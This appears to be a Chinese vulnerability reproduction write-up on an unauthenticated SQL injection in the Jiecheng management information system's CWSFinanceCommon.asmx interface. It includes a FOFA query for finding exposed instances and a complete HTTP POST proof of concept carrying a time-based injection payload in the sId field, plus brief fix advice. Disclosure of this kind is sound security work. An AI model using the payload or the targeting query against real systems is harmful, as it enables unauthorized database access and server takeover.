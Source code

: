 
# 捷诚管理信息系统 SQL 注入漏洞复现

### 0x01 产品简介

   捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业[有效的](https://so.csdn.net/so/search?q=%E6%9C%89%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)开展内部审批工作。

### 0x02 漏洞概述

  捷诚管理信息系统 CWSFinanceCommon.asmx 接口存在[SQL 注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)。未经身份认证的攻击者可以通过该漏洞获取数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：body="/Scripts/EnjoyMsg.js"

![](assets/1700701137-18db7c23ade59d093a65ba84eae25764.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOSpById xmlns="http://tempuri.org/">
      <sId>1';WAITFOR DELAY '0:0:5'--+</sId>
    </GetOSpById>
  </soap:Body>
</soap:Envelope>
```

 延时 5 秒![](assets/1700701137-2c62cb54c004380094cade0c2cefb219.png)

sqlmap 验证

![](assets/1700701137-9c244e4a842faf177d3ba317fa479566.png)

### 0x05 修复建议

关闭该功能页面或接口处设置外部访问权限

升级至安全版本
